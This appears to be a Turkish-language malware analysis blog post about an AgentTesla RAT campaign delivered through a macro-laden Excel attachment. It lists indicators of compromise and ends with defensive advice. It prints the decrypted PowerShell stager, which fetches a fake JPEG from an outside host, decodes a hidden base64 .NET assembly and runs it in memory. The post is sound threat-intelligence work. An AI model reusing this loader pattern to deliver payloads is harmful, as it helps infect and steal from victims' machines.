






# AgentTesla Excel Zararlı Yazılımı IoC Çalışması

    
Ali Can Gönüllü | Siber Güvenlik Uzmanı - alicangonullu[at]yahoo.com
 
    Merhabalar, 
    Arkadaşlar bu yazımda sizlerle beraber AgentTesla adlı RAT yazılımını inceleyeceğiz.

# Disclaimer | Yasal Uyarı

  Bu blog yazısında sağlanan bilgiler yalnızca eğitim ve bilgilendirme amaçlıdır. <b>Bilgisayar korsanlığı, siber saldırılar veya bilgisayar sistemlerine, ağlara veya verilere herhangi bir şekilde yetkisiz erişim de dahil olmak üzere herhangi bir yasa dışı veya etik olmayan faaliyeti</b> teşvik etme veya reklam etme amacı taşımaz.
  
  Disclaimer: The information provided in this blog post is intended for educational and informational purposes only. It is not intended to encourage or promote any illegal or unethical activities, including hacking, cyberattacks, or any form of unauthorized access to computer systems, networks or data.

## Yayılış Biçimi

    Virüs genel olarak e-mail ortamında ve e-maillere ek olarak eklenmiş dosyalarda yayıldığını görmekteyiz. Ek dosyayı açtığınızda çalışmaktadır.
      
    
      

## Çalışma Mantığı

    Zararlı yazılımın çalışma mantığını ifşa etmek amacıyla çalışmalarda zararlı Excel dosyasının (Dosya Adı: Order_HR WJO-29-09_1.xlam.xlsx) içerisindeki "makro" olarak bilinen Visual Basic kodları yardımıyla "79.110.48.52" IP adresli bir makinaya dosya indirme isteği gönderdiğini gözlemliyoruz.
     
    IP adresine direkt olarak HTTP portu üzerinden bağlandığımızda bizi IIS ekranı karşılamaktadır. Buradan server üzerinde Windows OS işletim sisteminin çalıştığını görmekteyiz.
      
    
      
    IP adresli makina ve makro kodları üzerinde yaptığım çalışmalarda IP adresinde "ngown.vbs" ve "ngohms.txt" adlı iki dosyaya rast geldim.
     
    Öncelikle "ngown.vbs" adlı dosyayı incelediğimizde karşımıza bazı Windows komutları çıkmakta ve bu komutlarla hedef cihaz hakkında Ağ Cihazları bilgileri, WCN dosya bilgileri, Güvenlik Duvarı bilgileri ve Ağ Keşfi gibi pek çok bilgiyi edinmeye çalıştığı görülmüştür.
      
    
      
    Bahsi geçen sunucu üzerinden CVE 2017-11882 ve/veya CVE-2018-0802 zafiyetini sömürmeyi sağlayan "ngohms.txt" kodu çağırılmaktadır. Zafiyetin kaynağı olan "EQNEDT32.EXE" adlı Office dosyası çalışmaya başlar ve zafiyet sömürülerek sonraki aşamaya geçilir. 
      
    
      
    Bu kod ile sistem içerisinde tamamen gizlenerek Anti-Virüs programlarından tamamen gizlenebilmektedir. "ngohms.txt" adlı veri dosyasını dosyasını tamamen dekripte ettiğimizde ise ortaya çıkan kod ise şöyledir,
      
    <code>
    $imageurl = "https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg"
    $webclient = new-object system.net.webclient
    $imagebytes = $webclient.downloaddata("https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg")
    $imagetext = ([system.text.encoding]::ascii).getstring($imagebytes)
    $startflag = "<>"
    $endflag = "<>"
    $startindex = $imagetext.indexof("<>")
    $endindex = $imagetext.indexof("<>")
    $startindex -ge 0 -and $endindex -gt $startindex
    $startindex = $startflag.length
    $base64length = $endindex - $startindex
    $base64command = $imagetext.substring($startindex, $base64length)
    $commandbytes = [system.convert]::frombase64string($base64command)
    $loadedassembly = [system.reflection.assembly]::load($commandbytes)
    $type = $loadedassembly.gettype("Fiber.Home")
    $method = ($type.getmethod("VAI")).invoke($null, [object[]]"txt.smhogn/25.84.011.97//:ptth", "dfdfd", "dfdf", "dfdf", "dadsa", "de", "cu")
    </code>
      
    IoC testimiz devam ederken bu kod parçası yardımıyla "uploaddeimagens.com.br" web sitesinden JPEG dosyası formatında görünen bir virüs olduğunu görüyoruz. Burada resmi incelemeye başlıyoruz
      
    
      
    Masumane bir resim gibi görünüyor fakat içerisindeki string verileri maalesef öyle değil. Resmin içeriğini incelediğimizde asıl gerçeği görmekteyiz. Resim içeriğinin başında bildiğimiz resim verileri varken sonunda bir BASE64 şifreleme algoritması ile şifrelenmiş veri görmekteyiz.
      
    
      
    Base64 kodunu da dekripte ettiğimizde ise karşımıza çıkan bir EXE dosyasının BASE64 şeklinde dosya içeriğine gizlendiğini görmekteyiz.
      
    
      
    Bu kodun EXE içeriğini de incelediğimizde "RegAsm.exe" adlı yazılıma ait olduğunu buluyoruz. Fakat bu yazılımın çalıştıktan sonra bir HID (Donanım) olarak algılanmak için bir sürücü indirdiğini fark ediyoruz. Bu sayede kendisini bilgisayara bağlı bir donanım olarak göstererek çalışmaya devam edecek.
      
    <pre>http://********.com/******/dstrootcax3.p7c</pre>
      
    Bu aşamada virüsün çalışma aşamaları bitti. Bu aşamadan itibaren zararlı yazılımın sahibine haber verip vermediğini araştırmaya başladım.
     
    RegAsm.exe üzerinde yaptığım ek çalışmalarda da istediğime ulaşarak mail sunucusu üzerinden sahibine haber verdiğini fark ettim.
     
    <pre>
    Host : mail.********.***
    Username : niggabown20thsept@worlorderbillions.top
    </pre>

## Çözüm Önerisi
<ul>
    <li>Virüs koruma yazılımlarını güncel tutmak</li>
    <li>SPAMHaus tarafından tutulan zararlı mail listelerini güncellemek</li>
    <li>Bahsi geçen "79.110.48.52" IP adresini güvenlik duvarı yazılımlarından engellemek</li>
    <li>VBS dosyalarının açılmasını Domain Controller üzerinden engellemek</li>
    <li>Excel makrolarını kapalı tutmak</li>
    <li>Kurumsal düzeyde bilinmeyen mail adreslerinden gelen dosyaların AÇILMAMASI gerektiğini personellere anlatmak</li>
</ul>

# Yazar | Author 

  Ali Can GÖNÜLLÜ 
  Siber Güvenlik Uzmanı - alicangonullu[at]yahoo.com

